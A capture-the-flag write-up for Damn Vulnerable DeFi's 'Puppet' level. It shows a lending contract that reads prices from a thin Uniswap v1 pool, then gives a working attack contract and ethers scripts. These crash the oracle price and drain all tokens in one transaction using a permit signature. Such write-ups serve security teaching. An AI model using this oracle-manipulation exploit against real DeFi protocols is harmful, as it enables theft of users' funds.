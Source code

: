 # 08_Puppet

## Challenge

There’s a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There’s a DVT market opened in an old Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Pass the challenge by taking all tokens from the lending pool. You start with 25 ETH and 1000 DVTs in balance.

You are provided with the code for the Pool:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "../DamnValuableToken.sol";

/**
 * @title PuppetPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetPool is ReentrancyGuard {
    using Address for address payable;

    uint256 public constant DEPOSIT_FACTOR = 2;

    address public immutable uniswapPair;
    DamnValuableToken public immutable token;

    mapping(address => uint256) public deposits;

    error NotEnoughCollateral();
    error TransferFailed();

    event Borrowed(address indexed account, address recipient, uint256 depositRequired, uint256 borrowAmount);

    constructor(address tokenAddress, address uniswapPairAddress) {
        token = DamnValuableToken(tokenAddress);
        uniswapPair = uniswapPairAddress;
    }

    // Allows borrowing tokens by first depositing two times their value in ETH
    function borrow(uint256 amount, address recipient) external payable nonReentrant {
        uint256 depositRequired = calculateDepositRequired(amount);

        if (msg.value < depositRequired)
            revert NotEnoughCollateral();

        if (msg.value > depositRequired) {
            unchecked {
                payable(msg.sender).sendValue(msg.value - depositRequired);
            }
        }

        unchecked {
            deposits[msg.sender] += depositRequired;
        }

        // Fails if the pool doesn't have enough tokens in liquidity
        if(!token.transfer(recipient, amount))
            revert TransferFailed();

        emit Borrowed(msg.sender, recipient, depositRequired, amount);
    }

    function calculateDepositRequired(uint256 amount) public view returns (uint256) {
        return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
    }

    function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }
}
```

## Solution

Our goal in this challenge can be achieved by manipulating the price oracle. As the lending pool calculates the amount of collateral based on a exchange pool that we can access, we can change the exchange rate by buying from the pool. As this pool only has a very low liquidity and no minimum liquidity constraints, we can easily shift the exchange rate into the route that we want. This needs a few steps:

1. We approve the exchange to manage our tokens.
2. We call the tokenToEthSwapInput() function of the exchange (as this doesn't directly reduce our balance of the token, but uses transferFrom we need to do the 1. step).
3. The exchange swaps our tokens for eth.
4. The exhange rate shifts to 1 eth being worth a lot more than 1 token.
5. We send our money to the Pool and retrieve all the tokens for almost no eth.

This can easily be achieved in 3 calls in the hardhat script.

```js
await token.connect(player).approve(uniswapExchange.address, PLAYER_INITIAL_TOKEN_BALANCE);
await uniswapExchange.connect(player).tokenToEthSwapInput(PLAYER_INITIAL_TOKEN_BALANCE, 1, 20775029706);
await lendingPool.connect(player).borrow(POOL_INITIAL_TOKEN_BALANCE, player.address, {value: await lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE)});
```

This would unfortunately have been to easy, so the testcase also included the assertion that all has to be done in 1 tx. Packaging the 2. and 3. call into a constructor isn't that much of an issue, but approve() would still have to be called before. So we somehow have to also get the call to approve() into the constructor. Luckily the DVT uses a ERC20 implementation that includes functionality for the EIP2612 functionality of permit(). What permit() does, is that it allows you to set an allowance to yourself, from another contract, if you are able to present a valid signature from said contract.

To generate a valid signature we first need to find out where our contract will be deployed. Luckily there is a ethers function for that, getContractAddress(), which we can use as we know the issuers address as well as the nonce (0).

```js
const futureAddress = ethers.utils.getContractAddress({from: player.address, nonce: 0});
```

Then we need to generate a valid signature for said call. We can use the ethers function signERC2612Permit() which yields us a valid signature.

```js
const {v,r,s} = await signERC2612Permit(player, token.address, player.address, futureAddress, ethers.constants.MaxUint256, ethers.constants.MaxUint256);
```

I then wrote a attack contract which executes the before mentioned steps.

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./PuppetPool.sol";
import "../DamnValuableToken.sol";

contract Attack_Puppet{
    PuppetPool pool;
    DamnValuableToken token;

    constructor(address _pool, address _exchange, address _token, uint8 v, bytes32 r, bytes32 s) payable
    {
        token = DamnValuableToken(_token);
        pool = PuppetPool(_pool);
        uint256 amount = token.balanceOf(msg.sender);

        //transfer the tokens to ourself
        token.permit(msg.sender, address(this), type(uint256).max, type(uint256).max, v, r, s);
        token.transferFrom(msg.sender, address(this), amount);

        //exchange the tokens into ETH and crash the price inside the oracle by doing that
        token.approve(_exchange, amount);
        (bool success, ) = _exchange.call(abi.encodeWithSignature("tokenToEthSwapInput(uint256,uint256,uint256)", amount, 1, 20775029706));
        require(success, "Exchange failed");

        //Lend out all the tokens
        pool.borrow{value: pool.calculateDepositRequired(token.balanceOf(_pool))}(token.balanceOf(_pool), msg.sender);
    }
}
```

Finally we need to deploy the contract:

```js
const Attack_Puppet = await ethers.getContractFactory('Attack_Puppet', player);
await Attack_Puppet.deploy(lendingPool.address, uniswapExchange.address, token.address, v, r, s, {value:  ethers.utils.parseEther('24')});
```

After the constructor is called we have the pools tokens and are finished.